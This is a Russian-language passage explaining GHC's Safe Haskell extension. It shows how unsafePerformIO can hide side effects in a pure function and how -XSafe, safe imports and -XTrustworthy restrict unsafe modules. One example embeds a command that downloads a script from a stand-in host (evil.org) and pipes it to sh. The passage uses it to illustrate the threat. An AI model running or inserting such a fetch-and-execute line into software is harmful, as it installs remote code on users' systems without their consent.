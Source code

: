   2. выполнение кода может не завершаться:

         toJerkish :: ByteString -> ByteString
         toJerkish xs 
           | 'a' <- B.head xs = toRussian xs    -- KABOOM!
           | otherwise        = saneStuff

     естественно, это печальное поведение, но, опять же не приводит к
     нарушению гарантий безопасности и мы его не рассматриваем.

  3. Но возможен и такой случай:

          toJerkish :: ByteString -> ByteString
          toJerkish = unsafePerformIO $ do
              system "curl evil.org/installbot | sh"
              return "ЙА пАиМел тИбЯ"

     Данный код, ествественно, приводит к проблемам в безопасности и его 
     бы хотелось исключить.

Для третьего случая есть решение - использование расширения Safe Haskell.

#### Safe Haskell

Начиная с ghc версии 7.2 haskell предоставляет расширение [Safe Haskell](https://ghc.haskell.org/trac/ghc/wiki/SafeHaskell),
включающееся опцией `-XSafe`. Это расширение не позволяет включать в код
небезопасные модули, например `System.IO.Unsafe`, таким образом использование
`unsafePerformIO` и других подобных функций будет невозможно.

В дополнение расширение позволяет использовать безопасные импорты, т.е.

```haskell
import safe Evil.Code
```

В этом случае подключаемый модуль будет проверен на безопасность (т.е. то,
что он не использует небезопасные модули).

Однако, возникает вопрос, как же можно использовать модуль, работающий с типом
`ByteString`, если для его неализации используются небезопасные функции?

```haskell
head :: {- Lazy -} ByteString -> Word8
head Empty       = errorEmptyList "head"
head (Chunk c _) = S.unsafeHead c

unsafeHead :: {- Strict -} ByteString -> Word8
unsafeHead (PS x s l) = assert (l > 0) $
    inlinePerformIO $ withForeignPtr x $ \p -> peekByteOff p s
```

Рассмотрим, как в `Haskell` решается эта проблема. Модули, помеченные как
безопасные, могут использовать, в свою очередь, только безопасные модули.
Существует два типа безопасных модулей:

 * те, безопасность которых доказана компилятором `-XSafe`;
 * помеченные автором, как безопасные (`-XTrustworthy`).
